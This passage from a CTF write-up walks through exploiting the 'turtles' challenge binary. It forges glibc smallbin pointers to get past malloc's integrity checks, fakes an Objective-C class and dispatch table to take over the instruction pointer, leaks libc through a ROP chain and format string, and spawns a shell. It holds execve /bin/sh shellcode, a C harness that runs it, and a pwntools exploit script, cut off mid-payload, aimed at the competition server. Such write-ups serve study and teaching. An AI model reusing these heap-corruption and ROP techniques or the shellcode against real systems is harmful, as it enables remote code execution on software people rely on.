0x12338f0:	0x0000000000000000	0x0000000000000000
0x1233900:	0x0000000000000000	0x0000000000000000
0x1233910:	0x0000000000000000	0x0000000000000000
0x1233920:	0x00007fed97b78cb0	0x0000000000000000
0x1233930:	0x0000000000000000	0x0000000000000001
0x1233940:	0x0000000000000000	0x0000000000000000
```
The problem is that `malloc` breaks because it tries to use a free block at `0x1233910` and the free block's back pointer is to null. As a first attempt to fix the problem, I tried having the two free blocks point to each other in a loop. Reading through the `malloc.c` source code, when a smallbin is allocated there's a check that the `bck` pointer for the smallbin matches the `fwd` pointer for the bin that its `bck` pointer is pointing to. There's no check that the `fwd` pointer for the smallbin is to the first smallbin in the list of smallbins of the appropriate size (i.e. there's a smallbin in the arena with a `bck` pointer pointing to `0x1233910` above). SO I just set `0x1233910` (i.e. the fourth bin in the heap section I'm overwriting) to point back to `0x12338d0` (the second bin), and set the second bin to point forward to the fourth bin. The other two pointers for those bins can be anything, and as a check that I'm right about this and won't get a seg fault, I made them null.

(The first pointer in each entry in the above heap sections should also be `0x6014c0`, that was a typo.)

Now I had, before the write:
```code
pwndbg> d/20xg 0x16c78b0
0x16c78b0:	0x00000000006014c0	0x0000000000000021
0x16c78c0:	0x00000000016d1640	0x0000000000000000
0x16c78d0:	0x000000150000000c	0x0000000000000021
0x16c78e0:	0x00000000016fc870	0x00000000016c3790
0x16c78f0:	0x0000000000000020	0x0000000000000020
0x16c7900:	0x00000000016c12a0	0x0000000000000000
0x16c7910:	0x0000001d0000000c	0x0000000000000021
0x16c7920:	0x0000000001701660	0x00000000016f4230
0x16c7930:	0x0000000000000020	0x0000000000000020
0x16c7940:	0x00000000016d1650	0x0000000000000000
```

and after the write:

```code
pwndbg> x /20xg 0x16c78b0
0x16c78b0:	0x00000000006014c0	0x0000000000000021
0x16c78c0:	0x0000000000000000	0x0000000000000000
0x16c78d0:	0x000000150000000c	0x0000000000000021
0x16c78e0:	0x00000000016c7910	0x0000000000000000
0x16c78f0:	0x0000000000000020	0x0000000000000020
0x16c7900:	0x0000000000000000	0x0000000000000000
0x16c7910:	0x0000001d0000000c	0x0000000000000021
0x16c7920:	0x0000000000000000	0x00000000016c78d0
0x16c7930:	0x0000000000000020	0x0000000000000020
0x16c7940:	0x0000000000000000	0x0000000000000000
```

My code then broke again in a different spot in `malloc.c`, and it's because the `bck` pointer for chunk 2 didn't match the `fwd` pointer for the thing that it's pointing back to. Of course it didn't, the back pointer was null. This happened during allocation of chunk 2. Okay, lesson learned: I wanted chunk 2 to point "back" to chunk 4, and chunk 4 to point "forward" to chunk 2.

Here's the next attempt, before the write:

```code
pwndbg> x /26xg 0x25078b0
0x25078b0:	0x00000000006014c0	0x0000000000000021
0x25078c0:	0x0000000002511640	0x0000000000000000
0x25078d0:	0x000000150000000c	0x0000000000000021
0x25078e0:	0x000000000253c870	0x0000000002503790
0x25078f0:	0x0000000000000020	0x0000000000000020
0x2507900:	0x00000000025012a0	0x0000000000000000
0x2507910:	0x0000001d0000000c	0x0000000000000021
0x2507920:	0x0000000002541660	0x0000000002534230
0x2507930:	0x0000000000000020	0x0000000000000020
0x2507940:	0x0000000002511650	0x0000000000000000
0x2507950:	0x0000001800000010	0x0000000000000021
0x2507960:	0x00000000025203e0	0x0000000000000000
```

and after:

```code
pwndbg> x /26xg 0x25078b0
0x25078b0:	0x00000000006014c0	0x0000000000000021
0x25078c0:	0x0000000000000000	0x0000000000000000
0x25078d0:	0x000000150000000c	0x0000000000000021
0x25078e0:	0x0000000002507910	0x0000000002507910
0x25078f0:	0x0000000000000020	0x0000000000000020
0x2507900:	0x0000000000000000	0x0000000000000000
0x2507910:	0x0000001d0000000c	0x0000000000000021
0x2507920:	0x00000000025078d0	0x00000000025078d0
0x2507930:	0x0000000000000020	0x0000000000000020
0x2507940:	0x0000000000000000	0x0000000000000000
0x2507950:	0x0000001800000010	0x0000000000000021
0x2507960:	0x0000000000000000	0x0000000000000000
0x2507970:	0x0000000000000000	0x0000000000000021
```

Now `malloc` properly allocated chunk 4, but then threw a message: `malloc(): smallbin double linked list corrupted` and sends a `SIGABRT`:

```code
Program received signal SIGABRT
pwndbg> x /26xg 0x25078b0
0x25078b0:	0x00000000006014c0	0x0000000000000021
0x25078c0:	0x0000000000000000	0x0000000000000000
0x25078d0:	0x000000150000000c	0x0000000000000021
0x25078e0:	0x00007fe73c0cfcb0	0x0000000002507910
0x25078f0:	0x0000000000000020	0x0000000000000020
0x2507900:	0x0000000000000000	0x0000000000000000
0x2507910:	0x0000001d0000000c	0x0000000000000021
0x2507920:	0x0000000002646557	0x00000000025078d0
0x2507930:	0x0000000000000020	0x0000000000000021
0x2507940:	0x0000000000000000	0x0000000000000000
0x2507950:	0x0000001800000010	0x0000000000000021
0x2507960:	0x0000000000000000	0x0000000000000000
0x2507970:	0x0000000000000000	0x0000000000000021
```

Now I got `0x24e3a10  <--> 0x2503790 (doubly linked list corruption 0x2503790 != 0x2507910 and 0x25078d0 or 0x2503790 is broken)` from `heapinfo`.

Here's the relevant source code in `malloc.c`:
```code
  if (in_smallbin_range (nb))
	  {
			  idx = smallbin_index (nb));
				bin = bin_at (av, idx);

				if ((victim = last (bin)) != bin)
				  {
						bck = victim->bk;
						if (__glibc_unlikely (bck->fd != victim))
						   malloc_printerr ("malloc(): smallbin double linked list corrupted");
							 set_inuse_bit_at_offset (victim, nb);
							 bin->bk = bck;
							 bck->fd = bin;
...
```

I had properly allocated chunk 4, and when I turedn to chunk 2 I checedk that the `bck` pointer of chunk 2 matched the forward pointer of what it was pointing to (chunk 4). But the forward pointer of chunk 4 had now been overwritten with data. To fix this problem, I needed the `bck` pointer of chunk 2 to point to a bogus forward pointer in an already-allocated chunk that I could overwrite. I decided to use the data section in the first chunk. It looks like I had the right idea, I just forgot that one of my pointers was going to be overwritten before I could use it.

Before the write:
```code
pwndbg> x /26xg 0x237a8b0
0x237a8b0:	0x00000000006014c0	0x0000000000000021
0x237a8c0:	0x0000000002384640	0x0000000000000000
0x237a8d0:	0x000000150000000c	0x0000000000000021
0x237a8e0:	0x00000000023af870	0x0000000002376790
0x237a8f0:	0x0000000000000020	0x0000000000000020
0x237a900:	0x00000000023742a0	0x0000000000000000
0x237a910:	0x0000001d0000000c	0x0000000000000021
0x237a920:	0x00000000023b4660	0x00000000023a7230
0x237a930:	0x0000000000000020	0x0000000000000020
0x237a940:	0x0000000002384650	0x0000000000000000
0x237a950:	0x0000001800000010	0x0000000000000021
0x237a960:	0x00000000023933e0	0x0000000000000000
0x237a970:	0x0000000000000000	0x0000000000000021
```

After the write:
```code
pwndbg> x /26xg 0x237a8b0
0x237a8b0:	0x00000000006014c0	0x0000000000000021
0x237a8c0:	0x000000000237a8d0	0x0000000000000000
0x237a8d0:	0x000000150000000c	0x0000000000000021
0x237a8e0:	0x000000000237a910	0x000000000237a8b0
0x237a8f0:	0x0000000000000020	0x0000000000000020
0x237a900:	0x0000000000000000	0x0000000000000000
0x237a910:	0x0000001d0000000c	0x0000000000000021
0x237a920:	0x0000000000000000	0x000000000237a8d0
0x237a930:	0x0000000000000020	0x0000000000000020
0x237a940:	0x0000000000000000	0x0000000000000000
0x237a950:	0x0000001800000010	0x0000000000000021
0x237a960:	0x0000000000000000	0x0000000000000000
0x237a970:	0x0000000000000000	0x0000000000000021
```

After continuing the program, I made it through the heap corruption check but the program still segfaulted:

```code
Program received signal SIGSEGV (fault address 0x10)
pwndbg> x /26xg 0x237a8b0
0x237a8b0:	0x00000000006014c0	0x0000000000000021
0x237a8c0:	0x00007f1e12b83cb0	0x0000000000000000
0x237a8d0:	0x000000150000000c	0x0000000000000021
0x237a8e0:	0x00007f1e12b83cb0	0x000000000237a8b0
0x237a8f0:	0x0000000000000020	0x0000000000000021
0x237a900:	0x0000000000000000	0x0000000000000000
0x237a910:	0x0000001d0000000c	0x0000000000000021
0x237a920:	0x0000000002646557	0x000000000237a8d0
0x237a930:	0x0000000000000020	0x0000000000000021
0x237a940:	0x0000000000000000	0x0000000000000000
0x237a950:	0x0000001800000010	0x0000000000000021
0x237a960:	0x0000000000000000	0x0000000000000000
0x237a970:	0x0000000000000000	0x0000000000000021
```
I needed the `bck` pointer for the first bin to point to something. It couldn't just be null. The code that was breaking was `bck->fd = bin`, as `0x0` was getting dereferenced. How about pointing to the second chunk? That chunk's forward pointer was already set to what would be getting written there.

The heap before the write:
```code
pwndbg> x /26xg 0x18298b0
0x18298b0:	0x00000000006014c0	0x0000000000000021
0x18298c0:	0x0000000001833640	0x0000000000000000
0x18298d0:	0x000000150000000c	0x0000000000000021
0x18298e0:	0x000000000185e870	0x0000000001825790
0x18298f0:	0x0000000000000020	0x0000000000000020
0x1829900:	0x00000000018232a0	0x0000000000000000
0x1829910:	0x0000001d0000000c	0x0000000000000021
0x1829920:	0x0000000001863660	0x0000000001856230
0x1829930:	0x0000000000000020	0x0000000000000020
0x1829940:	0x0000000001833650	0x0000000000000000
0x1829950:	0x0000001800000010	0x0000000000000021
0x1829960:	0x00000000018423e0	0x0000000000000000
0x1829970:	0x0000000000000000	0x0000000000000021
```
After the write:
```code
pwndbg> x /26xg 0x18298b0
0x18298b0:	0x00000000006014c0	0x0000000000000021
0x18298c0:	0x00000000018298d0	0x00000000018298d0
0x18298d0:	0x000000150000000c	0x0000000000000021
0x18298e0:	0x0000000001829910	0x00000000018298b0
0x18298f0:	0x0000000000000020	0x0000000000000020
0x1829900:	0x0000000000000000	0x0000000000000000
0x1829910:	0x0000001d0000000c	0x0000000000000021
0x1829920:	0x0000000000000000	0x00000000018298d0
0x1829930:	0x0000000000000020	0x0000000000000020
0x1829940:	0x0000000000000000	0x0000000000000000
0x1829950:	0x0000001800000010	0x0000000000000021
0x1829960:	0x0000000000000000	0x0000000000000000
0x1829970:	0x0000000000000000	0x0000000000000021
```

and after continuing the program, I still got a segfault, but further along.

Here's the heap:
```code
pwndbg> x /26xg 0x18298b0
0x18298b0:	0x00000000006014c0	0x0000000000000021
0x18298c0:	0x00007f7678071cb0	0x00000000018298d0
0x18298d0:	0x000000150000000c	0x0000000000000021
0x18298e0:	0x0000000001646557	0x00000000018298b0
0x18298f0:	0x0000000000000020	0x0000000000000021
0x1829900:	0x0000000000000000	0x0000000000000000
0x1829910:	0x0000001d0000000c	0x0000000000000021
0x1829920:	0x0000000001756854	0x00000000018298d0
0x1829930:	0x0000000000000020	0x0000000000000021
0x1829940:	0x0000000000000000	0x0000000000000000
0x1829950:	0x0000001800000010	0x0000000000000021
0x1829960:	0x0000000000000000	0x0000000000000000
0x1829970:	0x0000000000000000	0x0000000000000021
```

The error was in `malloc`'s heap corruption check again. `Heapinfo` gives

`0x1805a10  <--> 0x1825790 (doubly linked list corruption 0x1825790 != 0x18298b0 and 0x18298d0 or 0x1825790 is broken)`.

What was happening is that I eventually tried to allocate the first chunk, because it was now at the end of the smallbin list. The fact that the second chunk was marked as used doesn't matter. And when I tried to do so, `malloc` checked that the `fwd` pointer for the bin pointed to by the `bck` pointer for chunk 1 was also chunk 1, and that of course fails. I was back where I was before.

The problem was that I didn't know an address for a legitimate smallbin at the time of the write. (That is, I actually knew one, but I didn't think so due to my math error.) Well, what if I were to manufacture a bunch of fake smallbins that are linked to each other? Maybe there will be enough of them for me to be able to get the turtle to say something before the application crashed. After all, I just needed enough smallbins to be allocateable before crashing so that I could implement the exploit. Ideally I could use the stack as I could write plenty of bytes there, but the trouble was that I didn't know where the stack was, due to ASLR.

Maybe I could make maximum use of the available space on the heap then. I drew out a diagram to get rid of the previous size field (not used during allocation) and thereby squeezed eight allocations out of the available space.

Here's the original heap before the write:
```code
pwndbg> x /26gx 0xf788b0
0xf788b0:	0x00000000006014c0	0x0000000000000021
0xf788c0:	0x0000000000f82640	0x0000000000000000
0xf788d0:	0x000000150000000c	0x0000000000000021
0xf788e0:	0x0000000000fad870	0x0000000000f74790
0xf788f0:	0x0000000000000020	0x0000000000000020
0xf78900:	0x0000000000f722a0	0x0000000000000000
0xf78910:	0x0000001d0000000c	0x0000000000000021
0xf78920:	0x0000000000fb2660	0x0000000000fa5230
0xf78930:	0x0000000000000020	0x0000000000000020
0xf78940:	0x0000000000f82650	0x0000000000000000
0xf78950:	0x0000001800000010	0x0000000000000021
0xf78960:	0x0000000000f913e0	0x0000000000000000
0xf78970:	0x0000000000000000	0x0000000000000021
```
and after the write:

```code
pwndbg> x /26gx 0xf788b0
0xf788b0:	0x00000000006014c0	0x0000000000000020
0xf788c0:	0x0000000000f78910	0x0000000000f788c8
0xf788d0:	0x0000000000000020	0x0000000000f788b0
0xf788e0:	0x0000000000f788e0	0x0000000000000020
0xf788f0:	0x0000000000f788c8	0x0000000000f788f8
0xf78900:	0x0000000000000020	0x0000000000f788e0
0xf78910:	0x0000000000f78928	0x0000000000000020
0xf78920:	0x0000000000f78910	0x0000000000f788b0
0xf78930:	0x0000000000000020	0x0000000000f788f8
0xf78940:	0x0000000000f78940	0x0000000000000020
0xf78950:	0x0000000000f78928	0x0000000000f78958
0xf78960:	0x0000000000000020	0x0000000000f78940
0xf78970:	0x0000000000f78970	0x0000000000000021
```

`malloc` breaks again, seg faulting. Here's the heap at that point:

```code
pwndbg> x /26gx 0xf788b0
0xf788b0:	0x00000000006014c0	0x0000000000000020
0xf788c0:	0x0000000000646557	0x0000000000f788c8
0xf788d0:	0x0000000000000020	0x00007f8f11889cb0
0xf788e0:	0x0000000000f788e0	0x0000000000000020
0xf788f0:	0x0000000000000000	0x0000000000f788f8
0xf78900:	0x0000000000000020	0x0000000000f788f0
0xf78910:	0x0000000000f78928	0x0000000000000020
0xf78920:	0x0000000000756855	0x0000000000f788b0
0xf78930:	0x0000000000000020	0x0000000000f78908
0xf78940:	0x0000000000f78940	0x0000000000000020
0xf78950:	0x0000000000f78938	0x0000000000f78958
0xf78960:	0x0000000000000020	0x0000000000f78950
0xf78970:	0x0000000000f78970	0x0000000000000021
```
Everything worked perfectly. The entries at `0xf788c0`, `0xf788d8`, `0xf788f0`, `0xf78908`, `f78920`, `f78908`, `f78950` and `f78960` are all data written by whatever's calling `malloc`. `f78920` gets overwritten by an "in use" bit so that it reads "Uhu" instead of "Thu", but that's okay. But I run out of space to use and seg fault anyway. It was a nice attempt, though: I squeezed eight writes out of those 200 bytes, not too shabby. It looks like the code calling `malloc` was setting up a singly linked list ending in `NULL`, and the list was just too long for me to effectively use this technique.

At this point, I realized that the back pointer at the turtle heap address + 0x78 is always the turtle heap address + 0x2c980, and that I had made a math mistake...

## Fixing the heap corruption

Next I went ahead and wrote the pointer to the turtle heap address + 0x2c980 into the turtle heap address + 0x78. Before the write I had:

```code
pwndbg> x /26xg 0x1f0a8b0
0x1f0a8b0:	0x00000000006014c0	0x0000000000000021
0x1f0a8c0:	0x0000000001f14640	0x0000000000000000
0x1f0a8d0:	0x000000150000000c	0x0000000000000021
0x1f0a8e0:	0x0000000001f3f870	0x0000000001f06790
0x1f0a8f0:	0x0000000000000020	0x0000000000000020
0x1f0a900:	0x0000000001f042a0	0x0000000000000000
0x1f0a910:	0x0000001d0000000c	0x0000000000000021
0x1f0a920:	0x0000000001f44660	0x0000000001f37230
0x1f0a930:	0x0000000000000020	0x0000000000000020
0x1f0a940:	0x0000000001f14650	0x0000000000000000
0x1f0a950:	0x0000001800000010	0x0000000000000021
0x1f0a960:	0x0000000001f233e0	0x0000000000000000
0x1f0a970:	0x0000000000000000	0x0000000000000021
```

which was replaced with:
```code
pwndbg> x /26xg 0x1f0a8b0
0x1f0a8b0:	0x00000000006014c0	0x0000000000000021
0x1f0a8c0:	0x0000000000000000	0x0000000000000000
0x1f0a8d0:	0x000000150000000c	0x0000000000000021
0x1f0a8e0:	0x0000000001f0a910	0x0000000001f37230
0x1f0a8f0:	0x0000000000000020	0x0000000000000021
0x1f0a900:	0x0000000000000000	0x0000000000000000
0x1f0a910:	0x0000001d0000000c	0x0000000000000021
0x1f0a920:	0x0000000000000000	0x0000000001f0a8d0
0x1f0a930:	0x0000000000000020	0x0000000000000021
0x1f0a940:	0x0000000000000000	0x0000000000000000
0x1f0a950:	0x0000001800000010	0x0000000000000021
0x1f0a960:	0x0000000000000000	0x0000000000000000
0x1f0a970:	0x0000000000000000	0x0000000000000021
```

Finally I got this output:
`2018-09-19 07:47:41.740 turtles[19708:19708] I am a turtle.`

Great!! I got the program to do what it's supposed to. Now I could start doing something interesting.

## Getting control of the instruction pointer

Next I wanted to step in and view what happens when the `turtle_say` function gets called. Up to now I had been dealing with what looks in retrospect like a broken part of the problem, unintended by its developers. At first I thought the next step was just to jump to some shellcode in the heap and execute it, bu the heap isn't executable. So snippets of the heap in the next stage of this write-up will include some (unnecessary) shell code.

I used some x86-64 shellcode from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-905.php):

```code
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf"
    "\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05
```
That's 29 bytes, which I tested with a simple C program:

```code
#include <unistd.h>

char * shellcode = "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf"
    "\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05";
int main(void)
{
  (*(void(*)()) shellcode)();
	return 0;
}
```

Next I produced a fake turtle class in the heap as well as a fake message dispatch table (`dtable`), in order to call a fake method and get control of the instruction pointer. I didn't need all the elements of the turtle class and dispatch table, so I only used the fields that were absolutely necessary in order to have enough free space on the heap to work with.

```code
pwndbg> x /26xg 0x19768b0
0x19768b0:	0x00000000006014c0	0x0000000000000000
0x19768c0:	0x0000000000000000	0x0000000000000000
0x19768d0:	0x0000000000000000	0x0000000000000000
0x19768e0:	0x0000000000000000	0x0000000000000000
0x19768f0:	0x0000000000000000	0x0000000000000000
0x1976900:	0x0000000000000000	0x0000000000000000
0x1976910:	0x0000000000000000	0x0000000000000021
0x1976920:	0x0000000000000000	0x00000000019a3230
0x1976930:	0x0000000000000000	0x0000000000000000
0x1976940:	0x0000000000000000	0x0000000000000000
0x1976950:	0x0000000000000000	0x0000000000000000
0x1976960:	0x0000000000000000	0x0000000000000000
0x1976970:	0x0000000000000000	0x0000000000000021
```
This would get the turtle to speak but throw a seg fault when the turtle is freed. I noticed that I could free the turtle if I didn't overwrite the chunk size for the chunk with the turtle pointer, at the cost of eight bytes.

Here's my design:
```code
0x19768b0:	0x00000000019768c0	0x0000000000000021
0x19768c0:	0x0000000000601400	0x0000000000000000 // turtle metaclass
0x19768d0:	0x0000000000000000	0x0000000000000000 // shellcode
0x19768e0:	0x0000000000000000	0x0000000000000000 // shellcode
0x19768f0:	0x0000000000000000	0x0000000000000000
0x1976900:	0x0000000001976930	0x0000000000000000 // &dtable
0x1976910:	0x0000000000000000	0x0000000000000021
0x1976920:	0x0000000000000000	0x00000000019a3230
0x1976930:	0x00000000019768d0	0x0000000001976930 // &shellcode; &&shellcode
0x1976940:	0x0000000000000000	0x0000000000000000
0x1976950:	0x0000000000000d2c	0x0000000000000000 // used during lookup
0x1976960:	0x0000000000000000	0x0000000000000000
0x1976970:	0x0000000000000000	0x0000000000000021
```

And implemented:
```code
pwndbg> x /26xg 0xdd88b0
0xdd88b0:	0x0000000000dd88c0	0x0000000000000021
0xdd88c0:	0x0000000000601400	0x0000000000000000
0xdd88d0:	0x529948c4fe58426a	0x2f2f6e69622fbf48
0xdd88e0:	0xd089495e54576873	0x000000050fd28949
0xdd88f0:	0x0000000000000000	0x0000000000000000
0xdd8900:	0x0000000000dd8930	0x0000000000000000
0xdd8910:	0x0000000000000000	0x0000000000000021
0xdd8920:	0x0000000000000000	0x0000000000e05230
0xdd8930:	0x0000000000dd88d0	0x0000000000dd8930
0xdd8940:	0x0000000000000000	0x0000000000000000
0xdd8950:	0x0000000000000000	0x0000000000000d2c
0xdd8960:	0x0000000000000000	0x0000000000000000
0xdd8970:	0x0000000000000000	0x0000000000000021
```
Running it...


So I demonstrated to myself that I could gain control of the instruction pointer, but of course I couldn't execute code in the heap!

## Figuring out how to leak a `libc` address

So now I had some options. I could call two methods: `say` and the one that destroys the turtle. I considered that I could have the `say` function leak a `libc` address and the destructor function simply call `main` again so that I can read into a new buffer. That way, the second time through, I could pivot to the heap and then ROP a shell. That seemed more feasible than trying to do a ROP with just the code in the `turtle` binary itself.

Looking through the code for the program, I considered returning to the code in `main` that prints "`here is a turtle: %p`". I could print whatever was `0x18` bytes below the base pointer, which was currently the address of the turtle. Here's the stack when I challenge_solved `Turtle_say` and get control of `%rip`:


It looks like if I were to pop `%rsp` with this function and then return, then with the next function I jump to `printf`, I could leak a stack address. But I really want to leak a `libc` address. Perhaps I could print from the GOT? Say, from `0x601290`, the address of `printf`?

Next, I wondered if this was a use after free problem. I could potentially the `release` method on the turtle, then loop back to the beginning. But I could not find a solution that way.

For quite awhile I looked for ways that I could leak a `libc` address by returning to the code that calls `printf`, but I couldn't get the right values in `%rdi` and `%rsi`. So I considered using return-oriented programming (ROP) to load my desired values into those registers. For this to work, first I needed to be able to return to an address that I control.

## Setting up a ROP chain

My challenge was, on the stack, to skip over the information that gets written to the heap, so that I could focus on using ROP to get a `libc` address into `%rdi%`, a null byte into `%rsi`, and then return to the code that calls `printf` and print the value of the pointer. Using `ROPGadget`, I found an address in the code that pops a number of registers that are rarely used in this binary:

`0x0000000000400d3c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret`

The benefit of this return address is that I could pop four otherwise-unused registers, without popping `rbp` (I would need it to remain the same in order to call a turtle method later). The first time I called this code, I was able to move the location of the return address into the contents of the buffer written to the heap. Then I kept calling this code, moving the return address further up the stack, until it moved beyond the 200 bytes written to the heap and into that part of the buffer that only exists on the stack. At this point I was free to ROP using whatever information I like, without damaging the heap. I now had five types of information to manage in the buffer on the heap: the ROP return addresses, the `dtable`, the turtle object, the fake turtle class, and in order to not corrupt the heap, a free block that has to retain its original size, `bck` pointer, and 8 bytes that will get overwritten by random data. Here's what the stack looked like (shown right when I returned to `0x400d3c` for the first time):


with the associated buffer on the heap:



With that, the program attempts to return to `0x4141414142424242` and I'm in business!


## Leaking a libc address

Next, I wanted to call `printf`. I started with a simple print and then used a format string attack to print from the GOT. So I needed `printf FORMAT ARGUMENT1 NULL`.

Here's a gadget to pop `%rdi`:

`0x0000000000400d43 : pop rdi ; ret`

Next on the stack I needed a pointer to the format string, and -- why not -- I put the format string in the buffer in the section that gets copied to the heap. Just so I could have six types of information in there for fun.

So I added to my buffer:
`0x400d43` `0x4141414100000000` `0x400c39`

That should move `NULL` into `%rsi`, `AAAA` into `%rdi`, and then call `printf('AAAA')` as a test.


There we go! Next I wanted to print what was at `0x601290`, the address of the reference to `printf` in the global offset table. So I just needed print '`%s`', but now the second argument, `%rsi`, needed to contain `0x601290`. I could make that happen with another gadget:

`0x0000000000400d41 : pop rsi ; pop r15 ; ret`

At this point I spent nearly two hours confused at a mysterious segmentation fault that occurred when moving the contents of the `xmm0` register to the stack during a call to a subroutine of `printf`. It [turns out](https://stackoverflow.com/questions/13013717/array-error-access-violation-reading-location-0xffffffff) that for a `movaps` instruction, the stack pointer has to be pointing to an address that is a multiple of 16 during that call, so adding another return to a ROP gadget that immediately returns fixes the problem.


Now I had my `libc` address!


My next problem is that I didn't know what version of `libc` was running on their server. I considered that I may have had to use loops to leak multiple `libc` addresses and look them up at libcdb! But no, the CTF organizers simply forgot to add the `libc` files and did it later in the competition.

## ROPping a shell

So now I wanted to read in a new buffer, then ROP a shell. After the `printf` command I moved directly into the `read` command, so that was useful. I could calculate exactly how far into the next buffer the current value of `%rsp` was pointing, but I just sprayed the stack with ASCII characters and spotted where the program crashed. Then I used  [one_gadget](https://rubygems.org/gems/one_gadget) to find a convenient place in `libc` to return to:


And I get a shell locally! The exploit does not work on the server, though.

## Getting a shell on the server

In the server's version of `libc`, it looked like I could get a shell if I just return to the `libc` base plus `0xd6e77`, making sure that I have null bytes at `[rsp+0x70]`.  I thought the reason was that the environment pointer is to `NULL` locally but not on the server. So, first I rewrote the ROP exploit so that I pushed NULL into `%rdx` and `%rsi` (the environment and arguments respectively), then pushed a pointer to `/bin/sh` (a string that I placed into my 200 bytes on the heap) into `%rdi`, then returned to a location in `libc` that calls `execve`. That worked locally but not remotely, so I wondered if perhaps I had the wrong `libc.so.6` file and the server actually was using a different `libc` version. I did some more debugging by simply printing the code at the `libc` location where I thought `printf` was located, and that worked locally but not remotely. So that was Progress! My second buffer wasn't getting read. I tracked the problem down to one of timing: I needed to wait another two seconds or so between sending the first buffer and sending the second one for the second read, so that the second one would get associated with the second read and not simply dropped. At that point I was able to properly run my exploit on the server:


Awesome! I've never had so much fun exploiting turtles. Here is the final exploit code, after being cleaned up a bit. I've also included the code to write eight fake, freeable smallbins into 200 bytes of space on the heap, because I found that interesting and so might you.

```py
### exploit-turtles.py

from pwn import *
from time import sleep

# Helper functions to convert 64-bit addresses to strings and vice versa
pck = lambda x: struct.pack('Q', x)
unpck = lambda x: struct.unpack('Q', x)

# Helper function, adds null bytes to the end of a hex address so we can pack it
def append_nulls(str):
	n = len(str)
	for i in xrange(8 - n):
		str += '\x00'
	return str

local = False
if local:
    p=process('') # :-)
else:
    p = remote('pwn.chal.csaw.io', 9003)


print(p.recvuntil('0x'))
heap_addr_string = p.recvline()
print("turtle is at " + heap_addr_string)
HEAP_ADDR = int(heap_addr_string,16)


#### Read the location of printf in libc using ROP and a format string attack.
#
## This block of information gets copied to the heap.
#
payload = append_nulls(pck(HEAP_ADDR+0x40)) # point to fake turtle class
payload += append_nulls(pck(0x400d3c)) # ROP
payload += "/bin/sh\x00"
payload += append_nulls(pck(0x0))*3
payload += append_nulls(pck(0x400d3e)) # ROP
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0x601400)) # optional metaclass pointer
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0x400d3c)) # ROP
payload += append_nulls(pck(0x21))
payload += append_nulls(pck(0x0)) # fwd1
payload += append_nulls(pck(HEAP_ADDR+0x2c980)) # bck1
payload += append_nulls(pck(0x400d3c)) # &shellcode
payload += append_nulls(pck(0x400d3c)) # ROP
payload += append_nulls(pck(HEAP_ADDR+0x80)) # start of dtable, also &dtable
payload += append_nulls(pck(HEAP_ADDR+0x70)) # dtable: &shellcode (so +0x88 is &&shellcode)
payload += append_nulls(pck(0x0000000000007325)) # test format string: %s
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0x400d3c)) # ROP
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0xd2c)) # used during lookup, part of dtable
payload += append_nulls(pck(0x0))*2
#
## I have another 1864 bytes remaining, and the rest of this information stays on the stack.
#
# `0x0000000000400d43 : pop rdi ; ret`
payload += append_nulls(pck(0x400d43))
payload += append_nulls(pck(HEAP_ADDR+0x90)) # string address, to go in %rdi
#
# `0x0000000000400d41 : pop rsi ; pop r15 ; ret`
payload += append_nulls(pck(0x400d41))
payload += append_nulls(pck(0x601290)) # I want to print the contents of this address in the GOT
payload += append_nulls(pck(0x0)) # This will go into r15
#
# I'm running into an alignment issue: I need to get %rsp to be a multiple of 16
# when calling printf. So I return and do nothing once.
payload += append_nulls(pck(0x4009a1))
#
# Jump to printf call
payload += append_nulls(pck(0x400c39))
#
# Terminate the read
payload += "\n"
p.send(payload)
#
####

time.sleep(2)
tmp = p.recv(timeout=0.5)
LIBC_ADDR = int(unpck(append_nulls(tmp))[0])
print("libc_addr = " + hex(LIBC_ADDR))

if local:
	PRINTF_OFFSET = 0x0 # :-)
	#ONE_GADGET_OFFSET = 0x0
	#ONE_GADGET_OFFSET_2 = 0x0
	POP_RDI_OFFSET = 0x0
	POP_RDX_OFFSET = 0x0
	POP_RSI_OFFSET = 0x0
	CALL_EXECVE_OFFSET = 0x0
else:
	PRINTF_OFFSET = 0x50cf0
	#ONE_GADGET_OFFSET = 0xd6e77
	#ONE_GADGET_OFFSET_2 = 0xd6e83
	POP_RDI_OFFSET = 0x22482 # pop rdi ; ret
	POP_RDX_OFFSET = 0x1b8e # pop rdx; ret
	POP_RSI_OFFSET = 0x24125 # pop rsi; ret
	CALL_EXECVE_OFFSET = 0xd6e8d # call execve

LIBC_BASE = LIBC_ADDR - PRINTF_OFFSET
print("LIBC_BASE: " + hex(LIBC_BASE))

# Sleeping here is necessary, in order for the program on the server
# to associate the new information I'm sending with the second read and not the first.
time.sleep(2)

#### Second payload to ROP a shell.
#
## Data that gets copied to the heap.
payload2 = append_nulls(pck(HEAP_ADDR+0x40)) # point to fake turtle class
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(0x0))*4
payload2 += append_nulls(pck(0x400d3e)) # ROP
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(0x601400)) # optional metaclass pointer
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(0x21))
payload2 += append_nulls(pck(0x0)) # fwd1
payload2 += append_nulls(pck(HEAP_ADDR+0x2c980)) # bck1
payload2 += append_nulls(pck(0x400d3c)) # &shellcode
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(HEAP_ADDR+0x80)) # start of dtable, also &dtable
payload2 += append_nulls(pck(HEAP_ADDR+0x70)) # dtable: &shellcode (so +0x88 is &&shellcode)
payload2 += append_nulls(pck(0x0000000000007325)) # test format string: %s
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(0x4141414141414141)) # Just to get my bearings...
payload2 += append_nulls(pck(0xd2c)) # used during lookup, part of dtable
payload2 += append_nulls(pck(0x0))*2
# I have another 1864 bytes remaining to use on the stack.
#
